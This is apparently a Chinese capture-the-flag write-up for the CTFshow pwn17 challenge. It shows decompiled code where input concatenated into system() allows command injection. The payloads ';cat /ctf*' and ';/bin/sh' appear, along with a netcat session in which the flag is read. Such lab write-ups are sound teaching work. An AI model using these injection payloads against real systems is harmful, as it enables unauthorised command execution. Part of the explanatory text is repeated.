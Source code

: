 > 首先把elf可执行文件复制到linux中，查看位数和保护机制：
> ```
> tasike@tasike-VM:~/Desktop$ file pwn17
> pwn17: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=0e74959dfc02e22b3ae5a08b27abb87340baa7fd, not stripped
> tasike@tasike-VM:~/Desktop$ checksec pwn17
> [*] '/home/tasike/Desktop/pwn17'
>     Arch:     amd64-64-little
>     RELRO:    Full RELRO
>     Stack:    Canary found
>     NX:       NX enabled
>     PIE:      PIE enabled
> ```
>
> pwn17是64位且保护机制全开的动态链接elf文件。
>
> 在本地尝试运行看看是怎么个运行模式：
> ```
> tasike@tasike-VM:~/Desktop$ chmod 777 pwn17
> tasike@tasike-VM:~/Desktop$ ./pwn17
>     ▄▄▄▄   ▄▄▄▄▄▄▄▄  ▄▄▄▄▄▄▄▄            ▄▄                           
>   ██▀▀▀▀█  ▀▀▀██▀▀▀  ██▀▀▀▀▀▀            ██                           
>  ██▀          ██     ██        ▄▄█████▄  ██▄████▄   ▄████▄  ██      ██
>  ██           ██     ███████   ██▄▄▄▄ ▀  ██▀   ██  ██▀  ▀██ ▀█  ██  █▀
>  ██▄          ██     ██         ▀▀▀▀██▄  ██    ██  ██    ██  ██▄██▄██ 
>   ██▄▄▄▄█     ██     ██        █▄▄▄▄▄██  ██    ██  ▀██▄▄██▀  ▀██  ██▀ 
>     ▀▀▀▀      ▀▀     ▀▀         ▀▀▀▀▀▀   ▀▀    ▀▀    ▀▀▀▀     ▀▀  ▀▀  
>     * *************************************                           
>     * Classify: CTFshow --- PWN --- 入门                              
>     * Type  : Linux_Security_Mechanisms                               
>     * Site  : https://ctf.show/                                       
>     * Hint  : You should understand the basic command usage of Linux! 
>     * *************************************                           
> 
> How much do you know about Linux commands? 
> 
> 1.id
> 2.ls
> 3.cat /ctfshow_flag
> 4.su
> 5.exit
> 
> Enter the command you want choose:(1.2.3.4 or 5)
> 
> 
> ```
>
> 从运行出来的结果开看，该题目是个菜单程序，分别对选项一一尝试之后，感觉好像就2有点用，并且有以下发现：
> ==当选择选项2的时候：==
>
> - 如果输入 / 后回车，那么可以ls出ctfshow_flag文件
> - 如果输入 ./ 后回车，也可以ls出ctfshow_flag文件
> - 如果什么都不输入，直接回车，也可以ls出ctfshow_flag文件
>
> 接着用ida64打开：
> ```c
> int __cdecl main(int argc, const char **argv, const char **envp)
> {
>   int v4; // [rsp+4h] [rbp-1Ch] BYREF
>   char dest[4]; // [rsp+Ah] [rbp-16h] BYREF
>   char buf[10]; // [rsp+Eh] [rbp-12h] BYREF
>   unsigned __int64 v7; // [rsp+18h] [rbp-8h]
> 
>   v7 = __readfsqword(0x28u);
>   setvbuf(_bss_start, 0LL, 2, 0LL);
>   setvbuf(stdin, 0LL, 1, 0LL);
>   puts(asc_D48);
>   puts(asc_DC0);
>   puts(asc_E40);
>   puts(asc_ED0);
>   puts(asc_F60);
>   puts(asc_FE8);
>   puts(asc_1080);
>   puts("    * *************************************                           ");
>   puts(aClassifyCtfsho);
>   puts("    * Type  : Linux_Security_Mechanisms                               ");
>   puts("    * Site  : https://ctf.show/                                       ");
>   puts("    * Hint  : You should understand the basic command usage of Linux! ");
>   puts("    * *************************************                           ");
>   *(_DWORD *)dest = 790655852;
>   v4 = 0;
>   puts("\nHow much do you know about Linux commands? \n");
>   while ( 1 )
>   {
>     menu();
>     v4 = 0;
>     puts("\nEnter the command you want choose:(1.2.3.4 or 5)\n");
>     __isoc99_scanf("%d", &v4);
>     switch ( v4 )
>     {
>       case 1:
>         system("id");
>         break;
>       case 2:
>         puts("Which directory?('/','./' or the directiry you want?)");
>         read(0, buf, 0xAuLL);
>         strcat(dest, buf);
>         system(dest);
>         puts("Execution succeeded!");
>         break;
>       case 3:
>         sleep(1u);
>         puts("$cat /ctfshow_flag");
>         sleep(1u);
>         puts("ctfshow{");
>         sleep(2u);
>         puts("... ...");
>         sleep(3u);
>         puts("Your flag is ...");
>         sleep(5u);
>         puts("ctfshow{flag is not here!}");
>         sleep(0x14u);
>         puts("wtf?You haven't left yet?\nOk~ give you flag:\nflag is loading......");
>         sleep(114514u);
>         system("cat /ctfshow_flag");
>         break;
>       case 4:
>         sleep(2u);
>         puts("su: Authentication failure");
>         break;
>       case 5:
>         puts("See you!");
>         exit(-1);
>       default:
>         puts("command not found!");
>         break;
>     }
>   }
> }
> ```
>
> 根据代码，很显然确实是只有选项2有用，因此，我们希望利用ls的命令来接着完成cat ctfshow_flag
>
> 但是该怎么完成呢？
>
> ==这就要用到"Linux基础命令的拼接"==
>
> #### 在Linux命令中，分号（ ; ）用于分隔多个命令，允许在一行上顺序执行多个命令。 当使用分号（ ; ）将命令连接在一起时，它们按照从左到右的顺序逐个执行，无论前面的命令是否 成功。这意味着无论前一个命令是否成功执行，后续的命令都将被执行。 例如，考虑以下命令： 在这个例子中， command1 执行完毕后，无论成功与否，接着会执行 command2 ，然后再执行 command3 。这样，多个命令可以按顺序在一行上执行。 或者也可以使用 & 将两条命令拼接在一起可以实现并行执行，即这两条命令将同时在后台执行。命 令之间使用 & 进行分隔。
>
> ```
> command1;command2;command3
> ```
>
> #### 在这个例子中， command1 执行完毕后，无论成功与否，接着会执行 command2 ，然后再执行 command3 。这样，多个命令可以按顺序在一行上执行。 或者也可以使用 & 将两条命令拼接在一起可以实现并行执行，即这两条命令将同时在后台执行。命 令之间使用 & 进行分隔。
>
> ```
> command1 & command2
> ```
>
> #### command1 和 command2 是两个要执行的命令。通过使用 & 将它们连接起来，它们将同时在后台 执行。这种方式下命令的输出可能会相互混合，具体的输出顺序取决于命令的执行速度和系统资源。
>
> 回到题目，要解决这题，选择选项2然后进行拼接，限制了10字节。但是我们完全够用，可以构造出 “;cat /ctf*” “;/bin/sh”等 直接拿取一个shell或者直接读出flag在==Linux中，通配符 * 表示匹配任意长度（包括零长度）的任意字符序列。==
>
> 事实上，输入以下两种均可getshell：
>
> - ```
>   ;cat /ctf*
>   ```
>
> - ```
>   ;cat ctfs*
>   ```
>
> 具体流程如下：
> ```
> tasike@tasike-VM:~/Desktop$ nc pwn.challenge.ctf.show 28262
>     ▄▄▄▄   ▄▄▄▄▄▄▄▄  ▄▄▄▄▄▄▄▄            ▄▄                           
>   ██▀▀▀▀█  ▀▀▀██▀▀▀  ██▀▀▀▀▀▀            ██                           
>  ██▀          ██     ██        ▄▄█████▄  ██▄████▄   ▄████▄  ██      ██
>  ██           ██     ███████   ██▄▄▄▄ ▀  ██▀   ██  ██▀  ▀██ ▀█  ██  █▀
>  ██▄          ██     ██         ▀▀▀▀██▄  ██    ██  ██    ██  ██▄██▄██ 
>   ██▄▄▄▄█     ██     ██        █▄▄▄▄▄██  ██    ██  ▀██▄▄██▀  ▀██  ██▀ 
>     ▀▀▀▀      ▀▀     ▀▀         ▀▀▀▀▀▀   ▀▀    ▀▀    ▀▀▀▀     ▀▀  ▀▀  
>     * *************************************                           
>     * Classify: CTFshow --- PWN --- 入门                              
>     * Type  : Linux_Security_Mechanisms                               
>     * Site  : https://ctf.show/                                       
>     * Hint  : You should understand the basic command usage of Linux! 
>     * *************************************                           
> 
> How much do you know about Linux commands? 
> 
> 1.id
> 2.ls
> 3.cat /ctfshow_flag
> 4.su
> 5.exit
> 
> Enter the command you want choose:(1.2.3.4 or 5)
> 
> 2
> Which directory?('/','./' or the directiry you want?)
> ;cat ctfs*
> bin
> boot
> ctfshow_flag
> dev
> etc
> home
> lib
> lib32
> lib64
> media
> mnt
> opt
> proc
> pwn
> root
> run
> sbin
> srv
> start.sh
> sys
> tmp
> usr
> var
> ctfshow{fc19f72f-53f8-4cfb-92c2-fb81465a1cff}
> ctfshow{fc19f72f-53f8-4cfb-92c2-fb81465a1cff}
> Execution succeeded!
> 1.id
> 2.ls
> 3.cat /ctfshow_flag
> 4.su
> 5.exit
> 
> Enter the command you want choose:(1.2.3.4 or 5)
> 
> ^C
> tasike@tasike-VM:~/Desktop$ 
> ```
>
> 